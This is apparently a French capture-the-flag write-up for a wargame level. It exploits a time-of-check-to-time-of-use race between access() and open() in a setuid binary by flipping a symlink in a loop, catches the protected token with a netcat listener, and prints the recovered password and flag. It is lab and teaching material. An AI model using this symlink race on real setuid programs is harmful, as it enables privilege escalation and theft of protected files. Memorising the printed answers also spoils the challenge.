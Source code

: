 # level09

1. Fichiers trouvés dans `~/` :

```bash
token  level10
```

2) Analyse du fichier `token` et du binaire `level10`

Nous n'avons aucun droit sur `token`.
Nous allons donc inspecter le binaire : 
```bash
open
access
strerror
__libc_start_main
write
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```
Plusieurs choses nous interesse : 
- - Le script permet d'envoyer un fichier auquel on a acces vers un host distant.
```bash
%s file host
sends file to host if you have access to it
```
- - Nous pouvont egalement voir que l'executable utilie `setuid` ce qui signifie qu'il s'executera avec les droits de `flag10`.


- - La faille est donc que `access()` utilise l'uid de l'utilisateur actuel, il faut donc reussir a changer le lien symbolique de `token` entre `access()` et `open()`.

3) Utilisation de l'executable :
- - Nous allons receptionner les fichier depuis un autre utilisateur en ecoute sur le port 6969 (information presente dans le retour de `strings`)
```bash
[...]
Connecting to %s:6969 ..
[...] 
```
- - Donc dans un autre terminal nous allons ecouter sur le port 6969 avce netcat :
```bash
nc -lv 6969
```

- L'utilisateur distant est donc entrain d'ecouter sur le port 6969.

4) Exploitation pour récupérer le password :

- Nous allons creer un lien symbolique vers le token :
```bash
ln -s /home/user/level10/token /tmp/link
```

- - Ensuite nous allons creer un script qui vas en boucle alterner la cible du lien symbolique vers un fichier useless ainsi que vers `token` tout en lancant en meme temps dans une autre boucle dans en attendant que ce que nous souhaitons ce produise.
```bash
echo "dummy" > /tmp/dummy

while true; do
    ln -sf /tmp/dummy /tmp/link 2>/dev/null
    ln -sf /home/user/level10/token /tmp/link 2>/dev/null
done &

while true; do
    ./level10 /tmp/link 127.0.0.1 >/dev/null 2>&1
done
```
```bash
#Link > Dummy
#access() OK
#Link > token
#open > token
```

```bash
nc -lv 6969
Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
woupa2yuojeeaaed06riuj63c
```

- - `woupa2yuojeeaaed06riuj63c`

```bash
su flag10
woupa2yuojeeaaed06riuj63c
```
5) Token decouvert : 

```bash
feulo4b72j7edeahuete3no7c
```



